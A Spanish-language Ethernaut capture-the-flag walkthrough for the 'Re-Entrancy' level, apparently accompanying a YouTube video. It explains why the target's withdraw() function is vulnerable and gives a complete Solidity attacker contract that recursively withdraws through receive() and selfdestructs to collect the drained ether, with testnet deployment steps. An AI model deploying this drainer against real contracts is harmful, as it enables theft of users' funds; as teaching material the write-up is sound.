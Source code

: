 # Re-Entrancy

> Estas son las instrucciones en las que se basan este vídeo:

<p align="center">
  <a href="https://www.youtube.com/watch?v=zfe-E7wyX-E">
    <img src="https://img.youtube.com/vi/zfe-E7wyX-E/hqdefault.jpg" alt="Link al video de Youtube">
  </a>
</p>

En este nivel **nuestro objetivo es robar todos los fondos** de este contrato. Nos indica las cosas que pueden ayudarnos:

- Contratos desconocidos pueden ejecutar código dónde no te lo esperabas.
- Métodos _fallback_.
- Excepciones `throw` y `revert`.
- Utilizar otro contrato para atacar.

Ahora, obtenemos una nueva [instancia](https://sepolia.etherscan.io/tx/0x9c818cecbb2880932585a08a6d0b4bf0390f01148317879fbb05ba151d751100) del contrato confirmando la transacción en nuestra billetera de _MetaMask_. Mientras se despliega, copiamos el código del contrato y lo pegamos en **Remix**.

## Análisis

Como el objetivo es sacar los fondos, nos vamos a centrar en las **funciones que envíen Ethers fuera del contrato**. En este caso solo ocurre en la función `withdraw()`, que establece la cantidad a través de los parámetros de entrada.

Así que nos centraremos en esta función. Cómo podemos observar, **primero se comprueba que tiene los fondos necesarios y después se envían a la dirección** que ha llamado a la función con la cantidad solicitada. Luego, se actualiza el balance restando la cantidad.

Esto es un patrón bastante malo ya que esta función **es vulnerable a un ataque de re-entrada**. Para aprovechar esta vulnerabilidad, lo que podemos hacer es llamar a esta función desde un contrato.

Este contrato **tendrá una función fallback que se activará al recibir fondos** y dentro de esta función `fallback` **volverá a llamar a la función** `withdraw()`. De esta manera, **llamaremos a esta función una y otra vez hasta que no haya fondos**, que será entonces cuándo saldrá del bucle.

## Solución

Para empezar, vamos a crear un nuevo archivo en Remix llamado `Re-entrancyAttack.sol` dónde primero vamos a definir la versión como siempre y una interfaz que contenga las funciones `donate()` y `withdraw()` del contrato original. Esto nos permite interactuar con el contrato original de una manera más fácil.

```jsx
pragma solidity ^0.8;

interface IReentrancy {
    function donate(address) external payable;

    function withdraw(uint256) external;
}
```

Después, vamos a crear un contrato llamado `Hack`, dónde vamos a definir la dirección del contrato objetivo como una variable `inmutable` y se va a establecer en el `constructor`, es decir, la tendremos que indicar al desplegar el contrato.

```jsx
contract Hack {
    IReentrancy private immutable target;

    constructor(address _target) {
        target = IReentrancy(_target);
    }
```

Luego, vamos a definir la función `attack()` que primero va a llamar a la función `donate()` del contrato original **para aumentar nuestro balance**. Después llamará a la función **withdraw()** para retirar los fondos. Después vamos a comprobar que el balance del contrato original sea 0 después de realizar el ataque para después

```jsx
    function attack() external payable {
        target.donate{value: 1e18}(address(this));
        target.withdraw(1e18);

        require(address(target).balance == 0, "target balance > 0");
        selfdestruct(payable(msg.sender));
    }
```

Por último, vamos a definir la función `fallback`, **esta función se va a ejecutar siempre que se envíen fondos a nuestro contrato**. Dentro de esta función, calcularemos el menor valor entre 1 ether y el balance del contrato original, **de esta manera sabremos cuando tenemos que parar de sacar fondos del contrato objetivo**.

```jsx
    receive() external payable {
        uint256 amount = min(1e18, address(target).balance);
        if (amount > 0) {
            target.withdraw(amount);
        }
    }
```

En la función `fallback`, hemos necesitado esta función que **simplemente devuelve el menor de los dos valores dados como parámetros** para saber el mínimo.

```jsx
    function min(uint256 x, uint256 y) private pure returns (uint256) {
        return x <= y ? x : y;
    }
```

El resultado será así:

```jsx
pragma solidity ^0.8;

interface IReentrancy {
    function donate(address) external payable;

    function withdraw(uint256) external;
}

contract Hack {
    IReentrancy private immutable target;

    constructor(address _target) {
        target = IReentrancy(_target);
    }

    function attack() external payable {
        target.donate{value: 1e18}(address(this));
        target.withdraw(1e18);

        require(address(target).balance == 0, "target balance > 0");
        selfdestruct(payable(msg.sender));
    }

    receive() external payable {
        uint256 amount = min(1e18, address(target).balance);
        if (amount > 0) {
            target.withdraw(amount);
        }
    }

    function min(uint256 x, uint256 y) private pure returns (uint256) {
        return x <= y ? x : y;
    }
}

```

## Ataque

Una vez hayamos terminado de programar nuestro contrato, **lo compilamos y vamos a desplegarlo**. Seleccionamos el entorno de _MetaMask_ y pegamos la dirección del contrato objetivo. Confirmamos la transacción para [crear el contrato](https://sepolia.etherscan.io/tx/0x1475383f634cffd2c69da8bc9d8013b3f6e7ebb047191996ed89fa45caf9d734) en la _Blockchain_.

Veremos que ha aparecido en el panel lateral, y solo tenemos la función `attack()`. Antes de usar esta función vamos a seleccionar que vamos a **mandar 1 Ether** para comenzar con el ataque. Esta función lo que va a hacer es **recibir los fondos, donarlos al contrato objetivo para aumentar el balance y luego retirar todo lo que pueda**.

Cuando este contrato reciba los fondos que hemos retirado, se ejecutará la función `fallback` que comprobará si hay fondos aún en el contrato y si es así seguirá retirando. Cuando termine, al final de la función `attack()` **tenemos una comprobación para que cuando no haya fondos, se autodestruya el contrato y nos los mande a nuestra dirección**.

Confirmamos la transacción y esperamos a que se ejecute en la _blockchain_…

Ahora en el [explorador de bloques](https://sepolia.etherscan.io/tx/0xcb6b68dc14bd919448581e15444de8b32e8026781dc930b16e14a2f66468a7c6) podemos ver lo que ha pasado:

- Primero, nuestro contrato atacante ha mandado **1 ether al objetivo**.
- Después ha retirado todo lo que ha podido del contrato original.
- Por último, se ha autodestruido pero antes nos ha enviado todos los fondos que tenía a nosotros.

Por lo que ya podemos [enviar el nivel](https://sepolia.etherscan.io/tx/0x18808809d31869758da61e70ae983d6e25360a02ea1a13bc3422d78d6a55263a) en _Ethernaut_, **el contrato objetivo está vacío!**

_Ethernaut_ nos enseña varios avisos sobre funciones que ya no se recomiendan. Además, **tenemos que asumir que no todas las direcciones a las que vamos a enviar fondos son carteras personales, también pueden ser contratos inteligentes que pueden tener código en la función fallback y re-entrar en tu contrato.**

Es un ataque bastante común y hay que tener cuidado, os recomiendo investigar más ya que **este ataque fue la causa del Hackeo de la DAO de Ethereum.**
